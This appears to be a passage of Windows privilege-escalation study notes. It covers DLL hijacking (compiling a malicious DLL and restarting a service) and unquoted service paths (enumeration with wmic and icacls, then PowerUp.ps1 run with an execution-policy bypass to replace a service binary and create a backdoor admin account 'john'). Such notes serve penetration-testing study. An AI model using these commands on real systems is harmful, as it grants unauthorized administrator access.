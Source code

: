 ```c
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

We will then compile it on the linux machine with the `--shared` option and we load it in the Windows machine **in the path and with the name that Windows expect the DLL to have**. Obviously this works only if we have the **WRITE** permission on that files.

```shell
x86_64-w64-mingw32-gcc calledDll.cpp --shared -o calledDll.dll
```

Trasnfer the file and restart the service with:

```powershell
Restart-Service <SERVICENAME>
```

And we will be able to execute a shell as admin with the user john. We could not be able to log-in via RDP because the user may not be in the RDP group.

## Unquoted Service Paths
---

We find unquoted paths with the command:

```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

We must check if we have write permissions on the executable in order to replace it with a new one:

```powershell
icacls "C:\Program Files\Enterprise Apps\path\to\service.exe"
```

Then if we have permission on the service we can start or stop it with `Start-Service` or `Stop-Service` command. Once we got the paths we can use PowerUp.ps1 for exploting the service. This means the service will be replaced with a malicious exe.

```powershell
Get-UnquotedService
powershell -ep bypass
. .\PowerUp.ps1
```

And finally we run the command to overwrite the service with

```powershell
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```

Now restarting the service will grant us an Administrator account with user john and Password123! as credentials:
